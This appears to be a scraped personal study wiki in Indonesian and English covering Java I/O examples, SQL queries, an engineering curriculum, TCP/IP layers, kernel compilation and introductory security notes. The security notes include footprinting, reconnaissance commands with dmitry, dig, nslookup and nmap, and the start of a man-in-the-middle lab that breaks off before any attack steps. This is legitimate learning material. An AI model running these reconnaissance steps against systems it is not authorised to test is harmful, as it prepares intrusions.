int c;
while ((c = inputStream.read()) != -1) {
outputStream.write(c);
}
} finally {
if (inputStream != null) {
inputStream.close();
}
if (outputStream != null) {
outputStream.close();
}
}
}
}
import java.io.FileReader; import java.io.FileWriter; import java.io.BufferedReader; import java.io.PrintWriter; import java.io.IOException;public class CopyLines { public static void main(String[] args) throws IOException {
BufferedReader inputStream = null; PrintWriter outputStream = null;
try { inputStream = new BufferedReader(new FileReader("xanadu.txt")); outputStream = new PrintWriter(new FileWriter("characteroutput.txt"));
String l; while ((l = inputStream.readLine()) != null) { outputStream.println(l); } } finally { if (inputStream != null) { inputStream.close(); } if (outputStream != null) { outputStream.close(); } } } }
inputStream = new BufferedReader(new FileReader("xanadu.txt"));
outputStream = new BufferedWriter(new FileWriter("characteroutput.txt"));import java.io.*;
import java.util.Scanner;
public class ScanXan {
public static void main(String[] args) throws IOException {
Scanner s = null;
try {
s = new Scanner(new BufferedReader(new FileReader("xanadu.txt")));
while (s.hasNext()) {
System.out.println(s.next());
}
} finally {
if (s != null) {
s.close();
}
}
}
}
import java.io.FileReader;
import java.io.BufferedReader;
import java.io.IOException;
import java.util.Scanner;
import java.util.Locale;
public class ScanSum {
public static void main(String[] args) throws IOException {
Scanner s = null;
double sum = 0;
try {
s = new Scanner(new BufferedReader(new FileReader("usnumbers.txt")));
s.useLocale(Locale.US);
while (s.hasNext()) {
if (s.hasNextDouble()) {
sum += s.nextDouble();
} else {
s.next();
}
}
} finally {
s.close();
}
System.out.println(sum);
}
}
public class Root {
public static void main(String[] args) {
int i = 2;
double r = Math.sqrt(i);
System.out.print("The square root of ");
System.out.print(i);
System.out.print(" is ");
System.out.print(r);
System.out.println(".");
i = 5;
r = Math.sqrt(i);
System.out.println("The square root of " + i + " is " + r + ".");
}
}
public class Root2 {
public static void main(String[] args) {
int i = 2;
double r = Math.sqrt(i);
System.out.format("The square root of %d is %f.%n", i, r);
}
}
public class Format {
public static void main(String[] args) {
System.out.format("%f, %1$+020.10f %n", Math.PI);
}
}
import java.io.Console;
import java.util.Arrays;
import java.io.IOException;
public class Password {
public static void main (String args[]) throws IOException {
Console c = System.console();
if (c == null) {
System.err.println("No console.");
System.exit(1);
}
String login = c.readLine("Enter your login: ");
char [] oldPassword = c.readPassword("Enter your old password: ");
if (verify(login, oldPassword)) {
boolean noMatch;
do {
char [] newPassword1 = c.readPassword("Enter your new password: ");
char [] newPassword2 = c.readPassword("Enter new password again: ");
noMatch = ! Arrays.equals(newPassword1, newPassword2);
if (noMatch) {
c.format("Passwords don't match. Try again.%n");
} else {
change(login, newPassword1);
c.format("Password for %s changed.%n", login);
}
Arrays.fill(newPassword1, ' ');
Arrays.fill(newPassword2, ' ');
} while (noMatch);
}
Arrays.fill(oldPassword, ' ');
}
// Dummy change method.
static boolean verify(String login, char[] password) {
// This method always returns
// true in this example.
// Modify this method to verify
// password according to your rules.
return true;
}
// Dummy change method.
static void change(String login, char[] password) {
// Modify this method to change
// password according to your rules.
}
}
File I/O :
- Path Operation
- Creating a Path
- Retrieving Information About a Path
- Removing Redundancies from a Path
- Converting a Path
- Joining Two Paths
- Creating a Path Between Two Paths
- Comparing Two Paths
- Apa lagi
-
Creating a Path
You can easily create a Path object by using one of the following get methods from the Paths (note the plural) helper class:
Path p1 = Paths.get("/tmp/foo");
Path p2 = Paths.get(args[0]);
Path p3 = Paths.get(URI.create("file:///Users/joe/FileTest.java"));Path p4 = FileSystems.getDefault().getPath("/users/sally");Path p5 = Paths.get(System.getProperty("user.home"),"logs", "foo.log");Retrieving Information About a Path
// None of these methods requires that the file corresponding
// to the Path exists.
// Microsoft Windows syntax
Path path = Paths.get("C:\\home\\joe\\foo");
// Solaris syntax
Path path = Paths.get("/home/joe/foo");
System.out.format("toString: %s%n", path.toString());
System.out.format("getFileName: %s%n", path.getFileName());
System.out.format("getName(0): %s%n", path.getName(0));
System.out.format("getNameCount: %d%n", path.getNameCount());
System.out.format("subpath(0,2): %s%n", path.subpath(0,2));
System.out.format("getParent: %s%n", path.getParent());
System.out.format("getRoot: %s%n", path.getRoot());
// Solaris syntax
Path path = Paths.get("sally/bar");
// or
// Microsoft Windows syntax
Path path = Paths.get("sally\\bar");<li>
<h4><a class="header" id="rrfp" style="text-decoration: none;">Removing Redundancies from a
Path</a></h4>
</li>
<li>
<h4><a class="header" id="cp" style="text-decoration: none;">Converting a Path</a></h4>
</li>
You can use three methods to convert the <code>Path</code>. If you need to convert the path to a string that can be opened from a browser, you can use <code>toUri</code>. For example:
Path p1 = Paths.get("/home/logfile");
// Result is file:///home/logfile
System.out.format("%s%n", p1.toUri());The toAbsolutePath method converts a path to an absolute path. If the passed-in path is already absolute, it returns the same Path object. The toAbsolutePath method can be very helpful when processing user-entered file names. For example:
public class FileTest {
public static void main(String[] args) {
if (args.length < 1) {
System.out.println("usage: FileTest file");
System.exit(-1);
}
// Converts the input string to a Path object.
Path inputPath = Paths.get(args[0]);
// Converts the input Path
// to an absolute path.
// Generally, this means prepending
// the current working
// directory. If this example
// were called like this:
// java FileTest foo
// the getRoot and getParent methods
// would return null
// on the original "inputPath"
// instance. Invoking getRoot and
// getParent on the "fullPath"
// instance returns expected values.
Path fullPath = inputPath.toAbsolutePath();
}
}
Joining Two Paths
// Solaris
Path p1 = Paths.get("/home/joe/foo");
// Result is /home/joe/foo/bar
System.out.format("%s%n", p1.resolve("bar"));
or
// Microsoft Windows
Path p1 = Paths.get("C:\home\joe\foo");
// Result is C:\home\joe\foo\bar
System.out.format("%s%n", p1.resolve("bar"));
// Result is /home/joe
Paths.get("foo").resolve("/home/joe");<li>
<h4><a class="header" id="capbtp" style="text-decoration: none;">Creating a Path Between Two
Paths</a></h4>
</li>
For example, consider two relative paths defined as joe and sally:
Path p1 = Paths.get("joe");
Path p2 = Paths.get("sally");Comparing Two Paths
Basis Data
perintah umum
SELECT * FROM table_name;
SELECT col1_name[, col2_name[, ...]] FROM table_name;
SELECT col_name AS alias FROM table_name;
SELECT TOP(50) * FROM table_name;
distinct = nampikan yg tdk doble
SELECT DISTINCT * FROM table_name;
SELECT DISTINCT col1_name[, col2_name[, ...]] FROM table_name;
SELECT * FROM table WHERE col1 > col2;
SELECT * FROM table WHERE col > 50 OR col < 20;
SELECT * FROM table WHERE col > 90 AND col <= 100;
SELECT * FROM table WHERE col [NOT] BETWEEN 90 AND 100;
SELECT * FROM table WHERE col [NOT] IN ('Solo', 'Palu');
SELECT * FROM table WHERE col IS [NOT] NULL;
SELECT * FROM table WHERE col LIKE '%budi%';
SELECT * FROM table WHERE col LIKE '%budi';
SELECT * FROM table WHERE col LIKE 'budi%';
SELECT * FROM table WHERE col LIKE '_i%a';
pengurutan
SELECT * FROM table_name ORDER BY col ASC;
SELECT * FROM table_name ORDER BY col DESC;
SELECT * FROM table_name ORDER BY col1 ASC, col2 DESC;
SELECT TOP(50) * FROM table_name ORDER BY col ASC;
Agregasi baris
SELECT * FROM table_name GROUP BY col;
SELECT * FROM table_name GROUP BY col1, col2;
SELECT COUNT(*) FROM table_name;
SELECT SUM(col) FROM table_name;
SELECT AVG(col) FROM table_name;
SELECT MIN(col) FROM table_name;
SELECT MAX(col) FROM table_name;
SELECT COUNT(*) FROM table WHERE conditions;
SELECT SUM(col1) FROM table GROUP BY col2;
SELECT MIN(col1) FROM table WHERE col2 > 10;
SELECT col1, SUM(col2) FROM table GROUP BY col3 HAVING SUM(col2) > 100;
Perintah banyak baris
SELECT * FROM A CROSS JOIN B;
SELECT * FROM A LEFT JOIN B ON A.k = B.k;
SELECT * FROM A INNER JOIN B ON A.k = B.k;
SELECT * FROM A RIGHT JOIN B ON A.k = B.k;
SELECT * FROM A FULL OUTER JOIN B ON A.k = B.k;
SELECT * FROM A UNION SELECT * FROM B;
SELECT * FROM A UNION ALL SELECT * FROM B;

Query lain-lain
CREATE VIEW view_name AS SELECT * FROM table; CREATE VIEW view_name AS SELECT col1, SUM(col2) AS sum FROM table_name GROUP BY col3;
SELECT * FROM view_name;
SELECT REPLACE(text, search, replace);
SELECT REPLACE(col, s, r) FROM table;
CASE var
WHEN val1 THEN expr1
WHEN val2 THEN expr2
ELSE expr3
END
COALESCE(expr1, [expr2[, ...]])
Jaringan Komputer
Materi ditunggu saja yah :D
Teknik Elektro
sumber : https://sarjana.jteti.ugm.ac.id/program-sarjana/s1-teknik-elektro/kurikulum
Sementara masih cuman list Mata Kuliahnya aja :)
Mata Kuliah Wajib
Semester 1
- Matematika Teknik (Kuliah + Tutorial)
- Fisika Elektro (Kuliah + Tutorial)
- Probabilitas dan Statistika
- Penulisan Laporan dan Karya Ilmiah
- Pemrograman Dasar
- Prak. Pemrograman Dasar
- Teknik Elektro Dasar
- Prak. Teknik Elektro Dasar
Semester 2
- Matematika Elektro (Kuliah + Tutorial)
- Fisika Teknik (Kuliah + Tutorial)
- Aljabar Linear
- Keteknikan
- Teknik Digital
- Elektronika Dasar
- Prak. Elektronika Dasa
Semester 3
- Stadium Generale
- Matematika Disket dan Logika
- Isyarat dan Sistem (Kuliah + Tutorial)
- Prak. Isyarat dan Sistem
- Sistem Mikroprocessor
- Prak. Digital dan Mikroprocessor
- Elektronika Analog
- Teknik Telekomunikasi
- Prak. Telekomunikasi Dasar
- Untai Elektrik
Semester 4
- Medan Elektromagnetis (Kuliah + Tutorial)
- Prak. Medan Elektromagnetis
- Metode Numeris (Kuliah + Tutorial)
- Prak. Metode Numeris
- Mesin Listrik Dasar
- Prak. Mesin Listrik Dasar
- Teknik Tenaga Listrik Dasar
- Pengukuran dan Instrumentasi
- Teknik Kendali
- Prakt. Instumentasi dan Kendali
Semester 5
- Perencanaan Rekayasa
- Jaringan dan Komunikasi Data
- Teknik Instalasi
- Prak. Teknik Instalasi
Semester 6
- Manajemen Industri
- Kapita Selekta
- Pilihan
Semester 7
- Kuliah Pilihan 1
- Kuliah Pilihan 2
Mata Kuliah Wajib Konsentrasi
Teknik Tenaga Listrik
Semester 5
- Pembangkitan Tenaga Listrik
- Transmisi dan Gardu Induk
- Perlengkapan Sistem Tenaga
- Analisis Sistem Tenaga
- Prakt. Sistem Tenaga
- Teknik Tegangan Tinggi
- Prakt. Teknik Tegangan Tinggi
Semester 6
- Mesin Listrik Lanjut
- Prak. Mesin Listrik Lanjut
- Teknik Proteksi
- Prakt. Teknik Proteksi
- Desain Listrik Industri
- Distribusi Tenaga Listrik
Teknik Pengolahan Isyarat, Elektronika, dan Biomedika
Semester 5
- Teknik Pengolahan Isyarat Digital
- Sistem Komunikasi
- Prakt. Telekomunikasi Lanjut
- Perancangan Sistem Digital
- Prakt. Perancangan Sistem Digital
- Instrumentasi Biomedika
Semester 6
- Teknik Pengolahan Citra
- Prakt. Elektronika Analog
- Sistem Berdasar Mikroprosesor
- Teknik Penyandian Sumber
- Piranti Pengolahan Isyarat Digital (DSP)
- Prak. Pengolah Isyarat Digital
Teknik Instrumentasi Kendali
Semester 5
- Teknik Pengolahan Isyarat Digital
- Sistem Komunikasi
- Prakt. Telekomunikasi Lanjut
- Perancangan Sistem Digital
- Prakt. Perancangan Sistem Digital
- Teknik Kendali Lanjut
Semester 6
- Teknik Kendali Digital
- Prakt. Elektronika Analog
- Sistem Berdasar Mikroprosesor
- Identifikasi Sistem
- Sistem Adaptive
- Prak. Kendali Lanjut
Teknik Telekomunikasi
Semester 5 SKS
- Teknik Pengolahan Isyarat Digital
- Sistem Komunikasi
- Prakt. Telekomunikasi Lanjut
- Perancangan Sistem Digital
- Prakt. Perancangan Sistem Digital
- Penyambungan dan Pensinyalan
Semester 6
- Teknik Antena
- Perambatan Gelombang Elektromagnetik
- Prakt. Elektronika Analog
- Rekayasa Trafik
- Transmisi Telekomunikasi
- Jaringan Telekomunikasi
- Prak. Manajemen Telekomunikasi
Teknik Komputer
Semester 5
- Teknik Pengolahan Isyarat Digital
- Sistem Komunikasi
- Prakt. Telekomunikasi Lanjut
- Perancangan Sistem Digital
- Prakt. Perancangan Sistem Digital
- Teknik Antarmuka dan Periferal
Semester 6
- Sistem Operasi pada Sistem Tertanam
- Prakt. Elektronika Analog
- Sistem Berdasar Mikroprosesor
- Arsitektur Komputer
- Sistem Tertanam dan Internet of Things
- Prak. Sistem Tertanam dan Internet of Things
Mata Kuliah Pilihan
- Pengolahan Statistis Isyarat
- Dinamika dan Stabilitas Sistem Tenaga Listrik
- Teknologi Kendali Elektronis Sistem Tenaga
- Elektronika Daya
- Analisis Transien
- Topik Khusus Teknik Elektro
- Transmisi Arus Searah
- Operasi Sistem Tenaga Listrik
- Perencanaan Sistem Tenaga Listrik
- Sistem Isolasi
- Keandalan Sistem Tenaga Listrik
- Kompatibilitas Elektromagnetik
- Aplikasi Komputer dalam Sistem Tenaga Listrik
- Perancangan Sistem Listrik Industri
- Manajemen Energi
- Teknik Penyandian Kanal
- Elektronika Frek. Tinggi dan Gelombang Mikro
- Antena dan Perambatan Gelombang
- Radar dan Navigasi
- Sistem Operasi pada Sistem Tertanam
- Robotika
- Teknik Kendali Neurofuzi
- Teknik Optimisasi
- Teknik Pengolahan Citra
- Sistem Komunikasi Bergerak
Cyber Security
TCP/IP
sumber :
https://lms.onnocenter.or.id/wiki/index.php/TCP/IP
https://www.niagahoster.co.id/blog/protokol-komunikasi/




Internet Protocol Suite / protokol komunikasi internet
- Transmission Control Protocol (TCP)
- Internet Protocol (IP)
|
Fungsi
|
Deskripsi
|
|
|
1
|
Addressing | Header IP paket mengandung alamat yang memberikan identifikasi ke komputer pengirim dan penerima. Router menggunakan informasi ini untuk menuntun setiap paket melewati network komunikasi dan menghubungkan antara komputer pengirim dan penerima. |
|
2
|
Reassembly | Kegunana internet protokol adalah memastikan pesan dipecah menjadi paket. Hal ini dikarenakan sebagian besar pesan terlalu besar untuk dimasukan ke dalam satu paket, dan karena paket tidak dikirimkan dalam urutan yang benar. Paket harus tersusun ulang saat tiba di penerima. |
|
3
|
Timeouts | Setiap IP paket mengandung self-destructive counter yang membatasi umur dari paket. Jika paket sudah kadaluarsa, paket dihancurkan sehingga jaringan internet tidak mengalami overloaded dengan paket yang rusak. |
|
4
|
Options | IP terdapat fitur tambahan yang mengizinkan komputer pengirim untuk memutuskan paket bagian mana yang didapatkan komputer penerima. Untuk menemukan bagian yang diambil maka perlu ditambahkan keamanan pada paket. |
lapisan TCP/IP :
|
Layer
|
Deskripsi
|
|
|
1
|
Link Layer | hanya mengatur komunikasi antara dua komputer yang menggunakan saluran fisik yang sama. Di dunia akademik ini di kenal sebagai ilmu komunikasi data. Kita mengenal Ethernet II di LAN. Tapi belum masuk ke jaringan komputer yang mengatur komunikasi banyak komputer. |
|
2
|
Internet Layer | mengatur perjalanan paket dari melewati banyak jaringan dengan berbagai media fisik yang berbeda. Ada yang melalui ethernet, ada yang melalui WiFi, ada yang melalui fiber optik dll. Informasi yang diberikan hanya IP address sumber dan IP tujuan, tidak ada informasi melewati mana, tidak ada mekanisme untuk menjamin keandalan data, dan menjamin bahwa paket akan sampai walaupun melewati banyak jaringan. |
|
3
|
Transport Layer | lapisan protocol ini yang akan menjamin bahwa data akan sampai dan berurutan. Jika ada data yang hilang di jalan, maka ada mekanisme untuk meminta untuk mengirim data ulang jika dibutuhkan. |
|
4
|
Application Layer | setelah data dipastikan sampai dengan baik, maka kita bisa menjalankan aplikasi di atas jaringan Internet. Kita bisa mengirimkan text, mengirimkan file, mengirimkan audio, video, gambar dll. Aplikasi dapat berbentuk e-mail, chatting, e-commerce, e-learning dll |
|
5
|
Physic Layer | menyalurkan data dari satu titik ke titik lain secara fisik. Peralatannya bisa di lihat, bisa di pegang, kita kenal sebagai modem, routrer, kabel LAN, antenna, WiFi dll. |
lapisan OSI :
|
Layer
|
Deskripsi
|
|
|
1
|
Application Layer | Layer OSI ini paling berdekatan dengan end user. Layer ini bertanggung-jawab atas pertukaran informasi antara program komputer, seperti program e-mail, dan service lain yang jalan di jaringan, seperti server printer atau aplikasi komputer lainnya. |
|
2
|
Presentation Layer | Layer OSI ini bertanggung jawab dalam pengkodean dan konversi data dari application layer. Presentation later bertanggung jawab untuk memastikan semua data yang berasal dari application layer dapat dibaca pada sistem lainnya. |
|
3
|
Session Layer | Layer OSI ini mempunyai tugas untuk menentukan bagaimana dua terminal menjaga, memelihara dan mengatur koneksi. Selain itu layer ini berfungsi untuk membentuk, me-manage, dan memutuskan session komunikasi antara entitas presentation layer. |
|
4
|
Transport Layer | Layer OSI ini bertanggung jawab untuk membagi data menjadi segmen, menjaga koneksi logika antar terminal, dan menyediakan penanganan error. |
|
5
|
Network Layer | Layer OSI ini bertanggung jawab untuk menentukan alamat jaringan, menentukan rute yang harus diambil selama perjalanan, dan menhaga antrian trafik di jaringan. |
|
6
|
DataLink Layer | Layer OSI ini mempunyai tugas untuk menyediakan link untu data dan memaketkannya menjadi frame yang berhubungan dengan hardware kemudian didistribusikan melalui media. |
|
7
|
Physical Layer | Layer OSI yang terakhir ini bertugas untuk mengirimkan dan menerima data mentah pada media fisik. |
Kernel
KERNEL / Daleman sistem operasi
adalah jembatan software
Aplikasi
|
Kernel
-------|---------
| | |
CPU Memory Devices(printer,modem,dsb)
( H a r d w a r e )
melihat kernel
ps ax
monolitic kernel vs microkernel
MEMBUAT KERNEL
*jangan dicoba dulu, masih hancur :)
Compile Kernel
sudo su
install keperluan :
apt-get update
apt-get install kernel-package libncurses5-dev fakeroot wget bzip2 kernel-wedge build-essential makedumpfile libncurses5 libssl-dev flex bison libelf-dev
pilih no
what do you want to do about modified configuration file kernel-img.conf
jika tidak ingin menghapus konfigurasi asal :
keep file local version currently installed
lalu
sudo su
cd /usr/src
rm -Rf /usr/src/linux
wget https://cdn.kernel.org/pub/linux/kernel/v5.x/linux-5.7.2.tar.xz
tar xJf linux-5.7.2.tar.xz -C /usr/src
ln -s /usr/src/linux-5.7.2 /usr/src/linux
letak sistem operasinya ada di
/usr/src/linux/
konfigurasi kernel
cd /usr/src/linux
cp -vi /boot/config-`uname -r` ./.config
make menuconfig
setting2 yang membingungkan
save dengan nama default (.config)
make all
jika ingin dikonfigurasi ulang
make-kpkg cleanFootprinting
-
Pengertian
-
Tujuan
-
Teknik
-
Tipe footprinting
-
Lingkungan yang memadai
-
Perangkat yang digunakan
-
Pertanyaan penting
-
Contoh informasi yang harus dikumpulkan
Pengertian :
Footprinting (juga dikenal sebagai pengintaian) adalah teknik yang digunakan untuk mengumpulkan informasi tentang sistem komputer dan entitas tempat mereka berada. Untuk mendapatkan informasi ini, seorang peretas mungkin menggunakan berbagai alat dan teknologi. Informasi ini sangat berguna bagi peretas yang mencoba meretas seluruh sistem
Tujuan :
Ini memungkinkan seorang peretas mendapatkan informasi tentang sistem atau jaringan target. Informasi ini dapat digunakan untuk melakukan serangan terhadap sistem. Itulah alasan yang mungkin dinamai Pre-Attack, karena semua informasi ditinjau untuk mendapatkan penyelesaian serangan yang lengkap dan berhasil. Footprinting juga digunakan oleh peretas etis dan penguji penetrasi untuk menemukan kelemahan dan kerentanan keamanan dalam jaringan perusahaan mereka sendiri sebelum peretas jahat menemukannya
Teknik :
- DNS queries
- Network enumeration
- Network queries
- Operating system identification
- Organizational queries
- Ping sweeps
- Point of contact queries
- Port Scanning
- Registrar queries (WHOIS queries)
- SNMP queries
- World Wide Web spidering
- ((net work edit)) wifi
Tipe Footprinting
- Active Footprinting
Active Footprinting adalah proses menggunakan alat dan teknik, seperti melakukan ping sweep atau menggunakan perintah traceroute, untuk mengumpulkan informasi tentang target. Jejak Kaki Aktif dapat memicu Sistem Deteksi Intrusi (IDS) target dan dapat dicatat, dan karenanya membutuhkan tingkat penyamaran agar berhasil.
- Passive Footprinting
Passive Footprinting adalah proses mengumpulkan informasi tentang target dengan cara yang tidak berbahaya, atau pasif. Menjelajahi situs web target, mengunjungi profil media sosial karyawan, mencari situs web di WHOIS, dan melakukan pencarian Google dari target adalah semua cara Passive Footprinting. Passive Footprinting adalah metode yang lebih tersembunyi karena tidak akan memicu IDS target atau mengingatkan target informasi yang sedang dikumpulkan.
Lingkungan yang memadai :
- Prosedur pengelolaan patch yang efektif.
- Kebijakan pengetesan konfigurasi sistem terkelola.
- Multi-layered DMZs.
- Pengelolaan log keamanan terpusat.
- Kontrol keamanan berbasis host.
- Deteksi intrusi jaringan atau sistem pencegahan.
- Deteksi intrusi nirkabel atau sistem pencegahan.
- Sistem deteksi intrusi atau pencegahan aplikasi web.
- Keamanan pengguna akhir, keamanan eksekutif, dan insider threat
Pertanyaan penting :
- Siapa yang berwenang memberikan ijin pengujian?
- Apa tujuan dari pengujian?
- Berapa jangka waktu yang diusulkan untuk pengujian Adakah batasan kapan pengujian bisa dilakukan?
- Apakah klien anda memahami perbedaan antara evaluasi kerentanan dengan pengujian penetrasi?
- Apakah anda akan melakukan pengujian dengan, atau tanpa kerja sama dengan tim operasional keamanan TI? Apakah anda menguji keefektifannya?
- Apakah rekayasa sosial diizinkan? Bagaimana dengan serangan denial-of-service?
- Apakah anda dapat menguji tindakan pengamanan fisik yang digunakan untuk mengamankan server, sangat penting penyimpanan data, atau hal lain yang membutuhkan akses fisik? Sebagai contoh, menguji akses masuk / pintu, meniru karyawan untuk masuk ke gedung, atau hanya berjalan ke area bagi orang umum.
- Apakah anda diperbolehkan untuk melihat dokumentasi jaringan atau diberitahu tentang arsitektur jaringan sebelum pengujian untuk mempercepat semuanya? (Belum tentu disarankan, karena hal ini dapat menimbulkan keraguan tentang nilai temuan anda. Sebagian besar perusahaan / institusi tidak berharap ini menjadi informasi yang mudah untuk ditemukan anda).
- Berapa rentang IP yang diizinkan untuk diuji? Ada hukum terhadap sistem pemindaian dan pengujian tanpa izin yang benar. Berhati-hatilah saat memastikan bahwa perangkat dan rentang ini sebenarnya milik klien anda, atau anda mungkin dalam bahaya menghadapi konsekuensi hukum.
- Dimana lokasi fisik perusahaan? Ini lebih berharga bagi anda penguji jika rekayasa sosial diizinkan karena ini memastikan anda berada di gedung yang disetujui saat melakukan pengujian. Jika waktu memungkinkan, anda harus memberitahu klien anda apakah anda dapat mengakses informasi ini secara publik dalam kasus mereka mempunyai kesan bahwa lokasi mereka adalah rahasia atau sulit untuk ditemukan.
- Apa yang harus dilakukan jika ada masalah atau jika tujuan awal pengujian telah dilakukan dan tercapai? Akankah anda terus menguji untuk menemukan lebih banyak entri, atau pengujian selesai? Bagian ini sangat penting dan terkait dengan pertanyaan mengapa klien menginginkan sebuah pengujian penetrasi.
- Adakah implikasi hukum yang perlu anda sadari, seperti sistem yang berada di negara yang berbeda dan sebagainya? Tidak semua negara memiliki hal yang sama hukum dalam hal pengujian penetrasi.
- Akan ada izin tambahan setelah kerentanan terjadi dieksploitasi? Hal ini penting saat melakukan pengujian pada jaringan tersegmentasi. Klien mungkin tidak sadar bahwa anda bisa menggunakan sistem internal sebagai kanal untuk menggali lebih dalam jaringan mereka.
- Bagaimana database ditangani? Apakah anda diperbolehkan menambahkan catatan, pengguna, dan seterusnya?
Contoh informasi yang harus dikumpulkan :
- Detail perusahaan, pegawai, dan alamat email
- Relasi dengan perusahaan lain
- Detail project yang melibatkan perusahaan lain
- Website berita relasi perusahaan
- Paten dan merek dagang
- Tanggal penting terkait project baru
Information Gathering
- Dmitry
- DNS Enumeration
- Port. *Belum ke list (random)
Dmitry
usage :
dmitry [-winsepfb] [-t 0-9] [-o %host.txt] host
-o save output to %host.txt or specified file
-i perform a whois lookup on the IP address of a host
-w perform a whois lookup on the IP domain of a host
-n retrieve netcraft.com information on a host
-s perform a search for possible subdomains
-e perform a search for possible email address
-p perform a TCP port scan on a host
*-f perform a TCP port scan on a host showing output reporting filtered ports
*-b read in the banner received from the scanned port
*-t 0-9 set the TTL in seconds when scanning a TCP port(default 2)
*Requires the -p flagged to be passed
contoh :
dmitry -i 192.168.43.1
dmitry -i 192.168.43.1 -o tampung.txt
dmitry -wnpe -o hsploit.com results
dmitry -w zonetransfer.me
dmitry -p 192.168.43.1
response :

DNS Enumeration
- Host
Usage:
host [-aCdilrTvVw] [-c class] [-N ndots] [-t type] [-W time]
[-R number] [-m flag] hostname [server]
-a is equivalent to -v -t ANY
-A is like -a but omits RRSIG, NSEC, NSEC3
-c specifies query class for non-IN data
-C compares SOA records on authoritative nameservers
-d is equivalent to -v
-l lists all hosts in a domain, using AXFR
-m set memory debugging flag (trace|record|usage)
-N changes the number of dots allowed before root lookup is done
-r disables recursive processing
-R specifies number of retries for UDP packets
-s a SERVFAIL response should stop query
-t specifies the query type
-T enables TCP/IP mode
-U enables UDP mode
-v enables verbose output
-V print version number and exit
-w specifies to wait forever for a reply
-W specifies how long to wait for a reply
-4 use IPv4 query transport only
-6 use IPv6 query transport only
contoh :
host 192.168.43.1
host -t ns 192.168.43.1
host -t mx 192.168.43.1
-
Nslookup
nslookup 192.168.43.1
hasil
nslookup
set type=ns
192.168.43.1
set type=mx
192.168.43.1
- dig
Usage:
dig [@global-server] [domain] [q-type] [q-class] {q-opt}
{global-d-opt} host [@local-server] {local-d-opt}
[ host [@local-server] {local-d-opt} [...]]
Where: domain is in the Domain Name System
q-class is one of (in,hs,ch,...) [default: in]
q-type is one of (a,any,mx,ns,soa,hinfo,axfr,txt,...) [default:a]
(Use ixfr=version for type ixfr)
q-opt is one of:
-4 (use IPv4 query transport only)
-6 (use IPv6 query transport only)
-b address[#port] (bind to source address/port)
-c class (specify query class)
-f filename (batch mode)
-k keyfile (specify tsig key file)
-m (enable memory usage debugging)
-p port (specify port number)
-q name (specify query name)
-r (do not read ~/.digrc)
-t type (specify query type)
-u (display times in usec instead of msec)
-x dot-notation (shortcut for reverse lookups)
-y [hmac:]name:key (specify named base64 tsig key)
d-opt is of the form +keyword[=value], where keyword is:
+[no]aaflag (Set AA flag in query (+[no]aaflag))
+[no]aaonly (Set AA flag in query (+[no]aaflag))
+[no]additional (Control display of additional section)
+[no]adflag (Set AD flag in query (default on))
+[no]all (Set or clear all display flags)
+[no]answer (Control display of answer section)
+[no]authority (Control display of authority section)
+[no]badcookie (Retry BADCOOKIE responses)
+[no]besteffort (Try to parse even illegal messages)
+bufsize=### (Set EDNS0 Max UDP packet size)
+[no]cdflag (Set checking disabled flag in query)
+[no]class (Control display of class in records)
+[no]cmd (Control display of command line -
global option)
+[no]comments (Control display of packet header
and section name comments)
+[no]cookie (Add a COOKIE option to the request)
+[no]crypto (Control display of cryptographic
fields in records)
+[no]defname (Use search list (+[no]search))
+[no]dnssec (Request DNSSEC records)
+domain=### (Set default domainname)
+[no]dscp[=###] (Set the DSCP value to ### [0..63])
+[no]edns[=###] (Set EDNS version) [0]
+ednsflags=### (Set EDNS flag bits)
+[no]ednsnegotiation (Set EDNS version negotiation)
+ednsopt=###[:value] (Send specified EDNS option)
+noednsopt (Clear list of +ednsopt options)
+[no]expandaaaa (Expand AAAA records)
+[no]expire (Request time to expire)
+[no]fail (Don't try next server on SERVFAIL)
+[no]header-only (Send query without a question section)
+[no]identify (ID responders in short answers)
+[no]idnin (Parse IDN names [default=on on tty])
+[no]idnout (Convert IDN response [default=on on tty])
+[no]ignore (Don't revert to TCP for TC responses.)
+[no]keepalive (Request EDNS TCP keepalive)
+[no]keepopen (Keep the TCP socket open between queries)
+[no]mapped (Allow mapped IPv4 over IPv6)
+[no]multiline (Print records in an expanded format)
+ndots=### (Set search NDOTS value)
+[no]nsid (Request Name Server ID)
+[no]nssearch (Search all authoritative nameservers)
+[no]onesoa (AXFR prints only one soa record)
+[no]opcode=### (Set the opcode of the request)
+padding=### (Set padding block size [0])
+[no]qr (Print question before sending)
+[no]question (Control display of question section)
+[no]raflag (Set RA flag in query (+[no]raflag))
+[no]rdflag (Recursive mode (+[no]recurse))
+[no]recurse (Recursive mode (+[no]rdflag))
+retry=### (Set number of UDP retries) [2]
+[no]rrcomments (Control display of per-record comments)
+[no]search (Set whether to use searchlist)
+[no]short (Display nothing except short
form of answers - global option)
+[no]showsearch (Search with intermediate results)
+[no]split=## (Split hex/base64 fields into chunks)
+[no]stats (Control display of statistics)
+subnet=addr (Set edns-client-subnet option)
+[no]tcflag (Set TC flag in query (+[no]tcflag))
+[no]tcp (TCP mode (+[no]vc))
+timeout=### (Set query timeout) [5]
+[no]trace (Trace delegation down from root [+dnssec])
+tries=### (Set number of UDP attempts) [3]
+[no]ttlid (Control display of ttls in records)
+[no]ttlunits (Display TTLs in human-readable units)
+[no]unexpected (Print replies from unexpected sources
default=off)
+[no]unknownformat (Print RDATA in RFC 3597 "unknown" format)
+[no]vc (TCP mode (+[no]tcp))
+[no]yaml (Present the results as YAML)
+[no]zflag (Set Z flag in query)
global d-opts and servers (before host name) affect all queries.
local d-opts and servers (after host name) affect only that lookup.
-h (print help and exit)
-v (print version and exit
contoh :
dig 192.168.43.1
dig 192.168.43.1 -t mx
dig 192.168.43.1 -t ns
dig 192.168.43.1 -t AAAA
dig 192.168.43.1 -t mx +short
dig 192.168.43.1 CNAME +short
for ip in 'dig 192.168.43.1 +short';do nmap $ip; done
Port :
netstat -tulpn
netstat -tulpn | grep LISTEN
netstat --listen
netstat -vaun
netstat -vatn
sudo ss -tulwn | grep LISTEN
ufw allow 80
ufw allow ssh
ufw deny ssh
ufw reload
ufw enable
ufw disable
lsof -i :22
close port :
nmap -p- 127.0.0.1
-p- : list all open port
misal tutup port tcp 40217
fuser -k -n tcp 40217
-k : kill
-n : process id
Man in the Middle Attack
- Mukadimah
- MITM HTTP
- MITM HTTPS
Mukadimah
kabel LAN = eth0
wifi = wlan0
konsep :

intinya menipu mac address
kenapa yg ditipu Mac address ??
prinsip paket :

yg dibutuhkan :
- virtualbox : server(ubuntu server 20.04), client(kali, host)
scanning :
arp -n
misal didapat :
- ip client = 192.168.43.210
- ip server = 192.168.43.207
- ip kali = 192.168.43.30
MITM HTTP :
Kali :
